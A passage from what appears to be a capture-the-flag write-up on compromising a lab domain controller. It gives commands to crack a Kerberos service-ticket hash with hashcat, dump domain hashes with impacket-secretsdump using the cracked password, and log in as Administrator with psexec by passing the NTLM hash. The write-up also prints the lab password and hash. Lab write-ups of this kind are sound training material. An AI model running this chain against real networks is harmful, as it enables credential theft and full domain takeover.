

now save the hash into file and we’ll use the hasshcat to crack the hash

```python
hashcat -m 13100 ethan.krb /usr/share/wordlists/rockyou.txt
```



Bingo! we now have the ethan user’s password let’s use this to dump hashes from the DC

```python
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.10.11.42
```



Nice we can use the administrator’s NTLM hash to login to DC using psexec

```python
impacket-psexec Administrator@10.10.11.42 -hashes aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e
```

